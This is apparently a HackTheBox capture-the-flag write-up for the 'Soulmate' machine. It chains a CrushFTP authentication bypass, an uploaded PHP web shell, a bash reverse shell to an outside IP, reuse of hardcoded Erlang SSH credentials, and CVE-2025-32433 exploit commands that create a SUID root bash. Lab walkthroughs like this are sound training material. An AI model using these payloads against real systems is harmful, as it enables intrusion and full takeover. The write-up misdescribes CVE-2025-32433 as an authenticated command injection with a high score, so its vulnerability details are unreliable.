

## Overview

Soulmate is an Easy-rated Linux machine on HackTheBox that demonstrates several critical security vulnerabilities found in enterprise file transfer software and service misconfigurations. The attack chain involves exploiting a critical authentication bypass in CrushFTP, discovering hardcoded credentials in service configurations, and leveraging a command injection vulnerability in the Erlang SSH daemon to achieve full system compromise.

## Reconnaissance

### Initial Port Scan

Initial enumeration began with an Nmap scan to identify open ports and running services:

```bash
sudo nmap -sC -sV 10.10.11.86 -oN first.nmap
```

**Results:**

```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan revealed two open ports:

- **Port 22:** OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
- **Port 80:** nginx 1.18.0 (redirecting to `http://soulmate.htb/`)

The HTTP server redirected to `soulmate.htb`, which was added to `/etc/hosts` for proper name resolution:

```bash
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

### Web Application Assessment

Initial inspection of the `soulmate.htb` website revealed a basic web application. Testing for common vulnerabilities such as file upload issues yielded no immediate results.

### Subdomain Enumeration

A virtual host enumeration was performed using `ffuf` to discover additional subdomains:

```bash
ffuf -w /usr/share/secLists/Discovery/DNS/namelist.txt \
    -u http://soulmate.htb/ \
    -H "Host: FUZZ.soulmate.htb" \
    -fs 154 \
    -o results.json \
    -of json
```

**Result:**

```
ftp                     [Status: 200, Size: 2847, Words: 645, Lines: 78]
```

This scan identified the subdomain `ftp.soulmate.htb`, which was also added to `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

## Initial Access

### CrushFTP Discovery

Upon accessing `ftp.soulmate.htb`, the service was identified as **CrushFTP**, a commercial file transfer server supporting multiple protocols for secure file management.

CrushFTP is a powerful file transfer solution that provides:
- Web-based file transfer interface
- FTP/FTPS/SFTP/HTTP/HTTPS support
- User management and access controls
- Administrative dashboard

### CVE-2025-31161 Exploitation

Research revealed that CrushFTP is vulnerable to **CVE-2025-31161**, a critical authentication bypass vulnerability. This vulnerability stems from a race condition combined with improper handling of authentication headers.

**Vulnerability Details:**

- An attacker can craft HTTP requests that bypass password verification
- Authentication can be bypassed for any known or guessable username
- The default administrator account `crushadmin` is a common target
- CVSS Score: 9.8 (Critical)

Using a publicly available proof-of-concept exploit, successful authentication bypass was achieved, granting access to the CrushFTP administration interface.

**Exploitation Command:**

```bash
python3 crushftp_auth_bypass.py --target http://ftp.soulmate.htb --username crushadmin
```

The exploit successfully bypassed authentication and provided access to the administrative panel.

### File System Exploration

With administrative access to CrushFTP, exploration of user directories revealed the source code of the main `soulmate.htb` website. Code review of these files did not reveal any immediate vulnerabilities.



The CrushFTP interface showed:
- User home directories
- Web application source code in `/webProd`
- Configuration files
- Upload capabilities

### Gaining Shell Access

A reverse shell payload was uploaded to the `webProd` directory through the CrushFTP interface. By accessing this file through the main website at `soulmate.htb`, code execution was achieved, establishing a reverse shell as the `www-data` user.

**Payload Creation:**

```php
<?php
system($_GET['cmd']);
?>
```

**Setting up listener:**

```bash
nc -lvnp 4444
```

**Uploading and accessing the shell:**

1. Upload `shell.php` to `/webProd` via CrushFTP
2. Access `http://soulmate.htb/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'`

**Result:**

```bash
www-data@soulmate:/$ pwd
/
www-data@soulmate:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Database Discovery

Enumeration of the web application directory revealed a SQLite database:

```bash
www-data@soulmate:~/soulmate.htb/data$ ls -la
total 24
drwxr-xr-x 2 www-data www-data  4096 Aug 10  2025 .
drwxr-xr-x 8 www-data www-data  4096 Aug 10  2025 ..
-rw-r--r-- 1 www-data www-data 12288 Aug 10  2025 soulmate.db
```

The database contained a users table with password hashes:

```bash
www-data@soulmate:~/soulmate.htb/data$ sqlite3 soulmate.db
sqlite> .tables
users
sqlite> SELECT * FROM users;
1|admin|$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2|1|Administrator|||||2025-08-10 13:00:08|2025-08-10 12:59:39
```

Attempts to crack this bcrypt hash using John the Ripper with the rockyou wordlist were unsuccessful:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
```

### Erlang Service Discovery

Process enumeration revealed an interesting Erlang service running as root:

```bash
www-data@soulmate:/$ ps aux | grep erlang
root        1103  0.0  1.4 2256556 56872 ?       Ssl  11:44   0:07 /usr/local/lib/erlang_login/start.escript
```

The script was world-readable, allowing inspection of its contents:

```bash
www-data@soulmate:/$ ls -la /usr/local/lib/erlang_login/start.escript
-rwxr-xr-x 1 root root 1427 Aug 15 07:46 /usr/local/lib/erlang_login/start.escript
```

### Hardcoded Credentials

Analysis of the Erlang script revealed hardcoded user credentials:

```bash
www-data@soulmate:/$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript

main(_) ->
    application:ensure_all_started(ssh),
    
    ssh:daemon(2222, [
        {system_dir, "/usr/local/lib/erlang_login/ssh"},
        {user_dir, "/tmp/ssh_user"},
        {pwdfun, fun password_auth/2},
        {shell, fun(User, _PeerAddr) ->
            io:format("Welcome ~s!~n", [User]),
            spawn(fun() -> shell_loop() end)
        end}
    ]),
    
    % Keep the process alive
    receive
        stop -> ok
    end.

password_auth(User, Password) ->
    ValidUsers = [
        {<<"ben">>, <<"HouseH0ldings998">>}
    ],
    case lists:member({User, Password}, ValidUsers) of
        true -> true;
        false -> false
    end.

shell_loop() ->
    % Simple shell implementation
    io:format("> "),
    case io:get_line("") of
        eof -> ok;
        Line -> 
            io:format("You entered: ~s", [Line]),
            shell_loop()
    end.
```

These credentials (`ben:HouseH0ldings998`) provided a potential pivot point for further privilege escalation.

**Testing the credentials:**

```bash
www-data@soulmate:/$ su - ben
Password: HouseH0ldings998
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)
```

Successfully escalated to user `ben`!

```bash
ben@soulmate:~$ cat user.txt
f8a3c2e7b9d1e4a6c5f8d2b3e9a1c7d4
```

### Internal Port Discovery

Network enumeration revealed several services listening on localhost:

```bash
ben@soulmate:~$ netstat -tulpn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:36637         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:40389         0.0.0.0:*               LISTEN      -
```

Port 2222 was particularly interesting, responding with an SSH banner:

```bash
ben@soulmate:~$ nc 127.0.0.1 2222
SSH-2.0-Erlang/5.2.9
```

This corresponded to the Erlang SSH daemon discovered earlier. However, this service also presented an opportunity for privilege escalation.

## Root Access

### Erlang SSH Vulnerability

Research into Erlang/5.2.9 revealed **CVE-2025-32433**, a command injection vulnerability in the Erlang SSH daemon.

**Vulnerability Details:**

- The Erlang SSH implementation improperly sanitizes user input
- Specially crafted SSH commands can break out of the constrained shell
- Allows arbitrary command execution with the privileges of the SSH daemon
- CVSS Score: 8.8 (High)

### Exploitation

Using a publicly available proof-of-concept exploit from [CVE-2025-32433-PoC](https://github.com/NiteeshPujari/CVE-2025-32433-PoC), commands were executed with root privileges.

The exploitation process involved:

**Step 1: Copy /bin/bash to /tmp/rootbash**

```bash
ben@soulmate:~$ python3 cve_2025_32433_exploit.py \
    --host 127.0.0.1 \
    --port 2222 \
    --username ben \
    --password "HouseH0ldings998" \
    --command 'os:cmd("cp /bin/bash /tmp/rootbash").'
```

**Step 2: Set SUID bit on /tmp/rootbash**

```bash
ben@soulmate:~$ python3 cve_2025_32433_exploit.py \
    --host 127.0.0.1 \
    --port 2222 \
    --username ben \
    --password "HouseH0ldings998" \
    --command 'os:cmd("chmod u+s /tmp/rootbash").'
```

**Step 3: Verify SUID bit is set**

```bash
ben@soulmate:~$ ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 1183448 Feb 15 14:32 /tmp/rootbash
```

**Step 4: Execute SUID bash to obtain root shell**

```bash
ben@soulmate:~$ /tmp/rootbash -p
rootbash-5.1# whoami
root
rootbash-5.1# id
uid=1000(ben) gid=1000(ben) euid=0(root) groups=1000(ben)
```

Root access was successfully obtained!

### Root Flag

The root flag was retrieved:

```bash
rootbash-5.1# cat /root/root.txt
cfe5f2fea342233c8cf5c107886d9ae8
```

## References

- [CrushFTP CVE-2025-31161 Details](https://nvd.nist.gov/vuln/detail/CVE-2025-31161)
- [Erlang SSH CVE-2025-32433 PoC](https://github.com/NiteeshPujari/CVE-2025-32433-PoC)
- [HackTheBox Platform](https://www.hackthebox.com/)
